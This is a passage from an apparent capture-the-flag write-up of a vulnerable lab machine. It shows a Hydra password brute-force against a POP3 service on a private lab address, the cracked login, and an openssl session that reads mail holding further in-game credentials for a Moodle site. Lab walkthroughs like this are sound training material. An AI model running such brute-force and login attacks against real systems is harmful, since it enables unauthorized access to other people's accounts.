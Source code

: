 Then with the Doak user I brute force and found his password.

```bash
root@kali:~$ hydra -l doak -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt pop3://192.168.179.156 -s 55006  -t 50 -S
...
[55006][pop3] host: 192.168.179.156   login: doak   password: goat
...
```

I logged in to the pop3 service and found his credentials for the moodle platform.

```bash
root@kali:~$ openssl s_client -connect 192.168.179.156:55006 -crlf -quiet
...
USER doak
+OK
PASS goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

I logged in to moodle as dr_doak.
